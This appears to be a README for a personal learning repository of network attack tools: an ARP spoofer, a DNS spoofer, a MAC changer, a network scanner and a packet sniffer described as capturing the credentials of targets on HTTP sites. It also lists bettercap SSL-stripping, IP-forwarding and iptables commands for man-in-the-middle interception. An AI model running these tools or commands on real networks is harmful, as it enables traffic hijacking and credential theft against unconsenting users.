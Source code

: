 creating a pensuite to run basic test for attack creation

arp spoofer changes network router to send request first through your computer then target

dns_spoofer changes requested website to your desired address

mac changer changes your mac address to desired mac

network scanner lists the current ip and mac of all devices on your current network

packet sniffer collects potential credentials of target who visit http websites on your current network

useful commmands
  ssl_strip
  bettercap -iface eth0 -caplet hstshijack/hstshijack
  
  -fowarding 
  echo 1 > /proc/sys/net/ipv4/ip_forward

  -table creation
  iptables -I FORWARD -j NFQUEUE --queue-num 0
